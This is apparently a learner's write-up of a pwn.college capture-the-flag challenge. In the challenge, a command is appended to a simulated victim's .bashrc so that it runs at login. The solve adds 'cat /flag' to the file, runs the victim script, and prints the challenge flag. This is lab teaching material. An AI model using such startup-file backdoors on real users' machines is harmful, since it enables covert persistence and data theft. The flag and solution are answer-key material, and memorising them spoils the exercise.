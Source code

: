 # Silly Shenanigans

## Bashrc Backdoor 
When your shell starts up, it looks for .bashrc file in your home directory and executes it as a startup script. You can customize your /home/hacker/.bashrc with useful things, such as setting environment variables, tweaking your shell configuration, and so on.

You can also use it for evil! An unwitting victim's .bashrc is a common target for shenanigans. Imagine sneaking onto your friend's computer and adding a echo "Hackers were here!" at the end of their .bashrc. That's funny, but the same capability can be used for much more nefarious purposes. Malicious software, for example, often targets startup scripts such as .bashrc to maintain persistence into the future!

In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named zardus, with a home directory of /home/zardus. You, as the hacker user, have write access to his .bashrc, and zardus has read-access to /flag. The victim is simulated by the script /challenge/victim, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?

HINT: Like the scripts you explored in Chaining Commands, the .bashrc script is just a shell script. Adding a new line with a command on it (e.g., echo Hello Hackers) will get that command executed, so all you really need to think about is what command will get you the flag!

NOTE: The victim's /home/zardus/.bashrc will have a lot of stuff already in it: the shell's startup is a complex affair. Don't panic --- just add your payload to the end and hope for the best!

HINT: Need to poke around as zardus to debug your solution? In practice mode, you can use sudo su --login zardus to drop into a Zardus session!

### Solve
**Flag: pwn.college{UTcVX42zAsC-cauR6hvKWuJAo_t.0VMzEzNxwyNwAzNzEzW}**

```bash
hacker@shenanigans~bashrc-backdoor:~$ nano /home/zardus/.bashrc
  GNU nano 8.4                                            /home/zardus/.bashrc                                             Modified  # this sets up a scary red shell prompt!
  PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

  # add your attack below this line!
  cat /flag
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{UTcVX42zAsC-cauR6hvKWuJAo_t.0VMzEzNxwyNwAzNzEzW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
```
First I ran the nano /home/zardus/.bashrc to edit the script of the .bashrc which is the victim's startup and added cat /flag to the content to print the flag contents. Then I ran /challenge/victim to simulate the victim and then its startup runs cat /flag to print out he flag contents.

### New Learnings
The significance of .bashrc file and how it acts as the startup commands.
